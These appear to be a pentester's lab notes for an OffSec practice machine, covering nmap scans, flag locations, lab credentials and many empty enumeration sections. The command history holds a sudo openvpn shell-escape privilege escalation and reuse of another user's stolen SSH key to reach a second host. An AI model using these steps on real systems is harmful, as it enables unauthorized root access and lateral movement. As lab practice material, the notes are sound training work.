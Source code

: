 # 192.168.x.122
# Summary
- 
# Flag Location
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- /home/offsec/local.txt
- /root/proof.txt
# Accounts
### offsec / password
`<ssh offsec@192.168.213.122>`
```
restricted shell
```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.159.122 --top-ports 1000`    
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`sudo nmap -A -T4 -p- 192.168.213.122`
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
|_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
1194/tcp open  openvpn?
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   83.07 ms 192.168.45.1
2   83.05 ms 192.168.45.254
3   88.40 ms 192.168.251.1
4   88.47 ms 192.168.213.122
```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```
```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```
```
## Netstat
`netstat -ano`
```
```
## Environment Vars
`Get-ChildItem Env:`
```
```
## Domain Controller Info
`nltest /dsgetdc:secura`
```
```
# Services    


## Command History
```c
    sudo -l
    gtfobins.github.io
    search openvpn

    // break out of restricted shell
    sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'

    //find id_rsa under /home/mario/.ssh
    ssh -i /home/mario/.ssh/id_rsa mario@172.16.152.14
```
